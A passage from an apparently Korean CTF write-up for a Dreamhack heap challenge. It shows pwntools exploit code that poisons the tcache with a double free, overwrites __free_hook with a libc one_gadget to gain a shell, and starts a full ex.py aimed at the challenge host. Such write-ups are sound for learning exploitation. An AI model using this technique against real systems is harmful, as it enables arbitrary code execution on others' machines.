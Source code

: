 ```py

# og = libc_base + 0x4f3ce
# og = libc_base + 0x4f3d5
og = libc_base + 0x4f432
# og = libc_base + 0x10a41c


# 여기서 tcache[0x40] 을 다시 쓰면 _IO_2_1_stdout_을 가져오는데 이 주소의 값을 바꾸면 안되므로 다른 tcache 엔트리르 써야함

# tcache[0x50] : empty
# chunk : first(1)
allocate(0x40, b'first')


# tcahce[0x50] : first(1)
free()


# tcache[0x50] : first(1) -> aaaaaaaa
edit(b'a'*0x8 + b'a')


# tcache[0x50] : first(2) -> first(1) + 0x10
free()


# tcache[0x50] : first(1) + 0x10 -> free_hook
# chunk : first(2)
allocate(0x40, p64(free_hook))


# tcache[0x50] : free_hook
# chunk : first(1)
allocate(0x40, b'a')


# tcache[0x50] : empty
# chunk : free_hook
allocate(0x40, p64(og))  # free_hook이 저장된 주소에 og가 저장되어 free_hook -> og를 가리키게 됨


# Exploit
free()
p.interactive()
```

<br>

## 전체 Expolit 코드 : **ex.py**

```py
from pwn import *

p = remote('host3.dreamhack.games', 22594)
elf = ELF('./tcache_poison')
libc = ELF('./libc-2.27.so')


def allocate(size, content):
    p.sendlineafter(b'Edit\n', b'1')
    p.sendlineafter(b'Size: ', str(size).encode())
    p.sendafter(b'Content: ', content)  # 나중에 _IO_2_1_stdout__lsb를 보낼때 sendline으로 보내면 공백이 추가되서 안됨

```